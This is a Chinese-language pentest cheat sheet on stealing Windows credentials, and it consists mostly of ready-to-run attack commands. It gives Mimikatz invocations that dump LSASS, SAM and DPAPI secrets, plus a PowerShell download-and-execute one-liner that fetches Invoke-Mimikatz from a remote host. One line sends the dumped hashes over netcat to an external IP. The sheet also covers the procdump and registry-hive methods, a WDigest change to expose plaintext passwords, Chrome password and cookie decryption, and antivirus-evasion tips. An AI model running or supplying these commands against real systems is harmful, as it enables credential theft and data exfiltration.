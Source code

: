 # 凭证信息收集

## 凭证获取工具

常用来获取 windows 密码的工具:
1、mimikatz
2、wce
3、pwddump7
4、ophcrack
5、procdump+mimikatz
6、LaZagne

密码 HASH
LM & NTLM

Windows 本地 hash:
https://www.secpulse.com/archives/65256.html

Vindows 系统下 hash 密码格式:
用户名称:RID:LM-HASH 值:NT-HASH 值

## Mimikatz

mimikatz For Win10T 载:

https://github.com/gentilkiwi/mimikatz/releases

### 常用命令
[PTH攻击](17_domain_%E5%9F%9F.md#mimikatz-pth-%E4%BC%A0%E9%80%92%E6%94%BB%E5%87%BB)

```sh
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz.exe "log logon.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

**1x 版本:**

```sh
privilege::debug       //提升权限
inject::process lsass.exe sekurlsa.dl   //注入sekurlsa.dl到lsass.exe进程里
@getLogonPasswords     //获取密码
```

**Powershell 远程加载 mimikatz 脚本**

```ts
// IEX是加载到内存中执行的。
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds"
```

杀软绕过: 1.大写小写。 2.用+号 拼凑。。
[Mimikatz 的 18 种免杀姿势及防御策略](https://www.freebuf.com/articles/system/234365.html)

```ts
v2.0 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
v2.2 https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/Invoke-Mimikatz.ps1
```

输出重定向

```sh
攻击机: nc -lvvp 6666 > pass123.txt
靶机  : mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit" | nc.exe -v 47.101.214.85 6666
```

powershell IEX (New-Object Net.WebClient).DownloadString('https://127.0.0.1/f');Get-PassHashes // 不好使

### 获取远程登录凭据

[内网渗透 | 获取远程主机保存的 RDP 凭据密码](https://mp.weixin.qq.com/s/F4AjedMpzObUm7NH3484lw)

```bash
# 1.cmdkey /list务必在Session会话下执行 或 poiwerpick
cmdkey /list
# 2.导出凭据
mimikatz.exe "log log_dpapi.txt" "privilege::debug" "sekurlsa::dpapi" "exit"
# 3.导出SESSION信息
mimikatz.exe "log 54461880A4E364919FB23518091F65E1.txt" "privilege::debug" "dpapi::cred /in:%userprofile%\AppData\Local\Microsoft\Credentials\54461880A4E364919FB23518091F65E1" "exit"
# 4.在log_dpapi.txt找到 54461880A4E364919FB23518091F65E1.txt中的guidMasterKey的值下面的masterKey, 读取明文
mimikatz "log plain1.txt" "dpapi::cred /in:%cred%\54461880A4E364919FB23518091F65E1 /masterkey:0ea407f34e8dbea06a9ce6ee42c61579bdfea6dd3e93d5b9aa36561c223922fe67a2bf18e5350e139bc977d88574cd1b4762c1183647b80e817c0327314cd29a" "exit"
```

### windows server 2012 及以上的系统明文

通过添加注册表，再通过例如锁屏、注销或重启等操作，让管理员重新登录及可以读取明文。

```sh
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

### FAQ 不能执行 powershell 远程命令

```ps
set-ExecutionPolicy RemoteSigned
或 Set-ExecutionPolicy -Scope CurrentUser
get-ExecutionPolicy
```

## 导出密码的几种方式

https://www.daimajiaoliu.com/daima/486f56b9d900403

procdump 导出

```ts
procdump64.exe -accepteula -ma lsass.dmp
mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

## wce 获取明文密码 win7 及以下

wce -w

## pwddump7 获取 hash

Pwddump7.exe > pass.txt
https://www.objectif-securite.ch/ophcrack

如果网站无法破解出 hash 值·我们可以使用 ophcrack 工具配合彩虹表自己破解.
工具下载:https://ophcrack.sourceforge.io/
彩虹表:
https://ophcrack.sourceforge.io/tables.php
http://project-rainbowcrack.com/table.htm

## Procdump+Mimikatz

Procdump lsass 进程导出:
For 32bits: procdump.exe -accepteula -ma lsass.exe lsass.dmp
For 64bits: procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
然后使用 mimikatz 还原密码:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"

## 注册表导出 hash

reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
导出后可以使用 cain 导人 system.hiv.security.hiv 获取统存中的明文信息.
mimikatz "lsadump sam /system:system.hiv /sam:sam.hiv" exit

python3 -m pip install impacket
windows: python secretsdump.py -sam sam.hiv -security security.hiv-system system.hiv LOCAL
linux: impacket -secretsdump -system system.hiv -ntds ntds.dit LOCAL

## sharpdump

## Windows Wifi 密码的获取

netsh wlan show profile
netsh wlan show profile name="ssid" key=clear

## 看 hosts

C:\Windows\System32\drivers\etc\hosts

## Windows IIS config

lIS6:
cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root

IIS7,8:
列出网站列表:%systemroot%/system32/inetsrv/appcmd.exe list site
列出网站物理路:%systemroot%\system32\inetsr\appcmd.exe list vdir
Mimikatz 读取 lIS7 配置文件密码:
mimikatz.exe privilege:debug log "iis:apphost /in:"%systemroot%\system32\inetsr\config\applicationHost.config" /live" exit

## windows 回收站信息获取

FOR /f "skip=1 tokens=1,2 delims=" %c in ('wmic useraccount get name^,sid') do dir /a/b C:\$Recycle.Bin\%d\ ^>%c.txt

## Chrpme 的密码和 cookie 获取

%localappdata%\Google\chrome\USERDA~1\default\LOGIND~ 1
%localappdata%\Google\chrome\USERDA~1\default\cookies

chrome 的用户信息·保存在本地文件为 sqlite 数据库格式

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit # 读 chrome 密码

## **lazagne** 综合获取信息
